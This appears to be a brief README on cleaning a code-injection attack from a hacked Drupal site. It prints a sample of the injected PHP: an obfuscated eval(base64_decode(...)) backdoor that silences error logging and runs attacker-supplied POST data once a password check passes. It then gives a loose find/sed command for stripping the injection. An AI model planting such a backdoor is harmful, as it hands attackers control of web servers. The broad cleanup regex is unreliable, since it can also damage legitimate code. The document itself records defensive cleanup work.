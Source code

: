 # Remove Drupal Code injection

Had a client whose site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:
```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w'); /*457563643*/ ?>```

With too many files to clean up manually, we removed the offending code with
```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```
,replaced the core files with the latest Drupal version and put the clean into version control.

Your mileage may vary. 
